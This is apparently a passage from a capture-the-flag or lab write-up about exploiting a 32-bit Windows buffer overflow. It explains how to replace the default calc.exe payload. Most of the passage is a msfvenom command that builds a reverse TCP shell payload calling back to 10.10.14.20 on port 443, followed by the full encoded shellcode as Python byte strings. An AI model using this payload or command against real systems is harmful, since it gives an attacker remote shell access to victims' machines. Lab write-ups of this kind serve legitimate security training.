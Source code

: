 #### Modify Payload

The payload in the script by default looks to be the output of
`msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python`.
Given the four-byte addresses and references to ESP and EIP (as opposed
to RSP and RIP), this is a 32-bit program.

I'll use `msfvenom` to generate my own payload that will return a
stageless (can catch with `nc`) reverse tcp shell:



    root@kali# msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 351 (iteration=0)
    x86/shikata_ga_nai chosen with final size 351
    Payload size: 351 bytes
    Final size of python file: 1869 bytes
    payload =  b""
    payload += b"\xb8\x93\xe7\xa2\x0c\xd9\xe9\xd9\x74\x24\xf4\x5a"
    payload += b"\x31\xc9\xb1\x52\x31\x42\x12\x03\x42\x12\x83\x51"
    payload += b"\xe3\x40\xf9\xa9\x04\x06\x02\x51\xd5\x67\x8a\xb4"
    payload += b"\xe4\xa7\xe8\xbd\x57\x18\x7a\x93\x5b\xd3\x2e\x07"
    payload += b"\xef\x91\xe6\x28\x58\x1f\xd1\x07\x59\x0c\x21\x06"
    payload += b"\xd9\x4f\x76\xe8\xe0\x9f\x8b\xe9\x25\xfd\x66\xbb"
    payload += b"\xfe\x89\xd5\x2b\x8a\xc4\xe5\xc0\xc0\xc9\x6d\x35"
    payload += b"\x90\xe8\x5c\xe8\xaa\xb2\x7e\x0b\x7e\xcf\x36\x13"
    payload += b"\x63\xea\x81\xa8\x57\x80\x13\x78\xa6\x69\xbf\x45"
    payload += b"\x06\x98\xc1\x82\xa1\x43\xb4\xfa\xd1\xfe\xcf\x39"
    payload += b"\xab\x24\x45\xd9\x0b\xae\xfd\x05\xad\x63\x9b\xce"
    payload += b"\xa1\xc8\xef\x88\xa5\xcf\x3c\xa3\xd2\x44\xc3\x63"
    payload += b"\x53\x1e\xe0\xa7\x3f\xc4\x89\xfe\xe5\xab\xb6\xe0"
    payload += b"\x45\x13\x13\x6b\x6b\x40\x2e\x36\xe4\xa5\x03\xc8"
    payload += b"\xf4\xa1\x14\xbb\xc6\x6e\x8f\x53\x6b\xe6\x09\xa4"
    payload += b"\x8c\xdd\xee\x3a\x73\xde\x0e\x13\xb0\x8a\x5e\x0b"
    payload += b"\x11\xb3\x34\xcb\x9e\x66\x9a\x9b\x30\xd9\x5b\x4b"
    payload += b"\xf1\x89\x33\x81\xfe\xf6\x24\xaa\xd4\x9e\xcf\x51"
    payload += b"\xbf\xaa\x05\x57\x2b\xc3\x1b\x67\x52\xa8\x95\x81"
    payload += b"\x3e\xde\xf3\x1a\xd7\x47\x5e\xd0\x46\x87\x74\x9d"
    payload += b"\x49\x03\x7b\x62\x07\xe4\xf6\x70\xf0\x04\x4d\x2a"
    payload += b"\x57\x1a\x7b\x42\x3b\x89\xe0\x92\x32\xb2\xbe\xc5"
    payload += b"\x13\x04\xb7\x83\x89\x3f\x61\xb1\x53\xd9\x4a\x71"
    payload += b"\x88\x1a\x54\x78\x5d\x26\x72\x6a\x9b\xa7\x3e\xde"
    payload += b"\x73\xfe\xe8\x88\x35\xa8\x5a\x62\xec\x07\x35\xe2"
    payload += b"\x69\x64\x86\x74\x76\xa1\x70\x98\xc7\x1c\xc5\xa7"
    payload += b"\xe8\xc8\xc1\xd0\x14\x69\x2d\x0b\x9d\x99\x64\x11"
    payload += b"\xb4\x31\x21\xc0\x84\x5f\xd2\x3f\xca\x59\x51\xb5"
    payload += b"\xb3\x9d\x49\xbc\xb6\xda\xcd\x2d\xcb\x73\xb8\x51"
    payload += b"\x78\x73\xe9" 
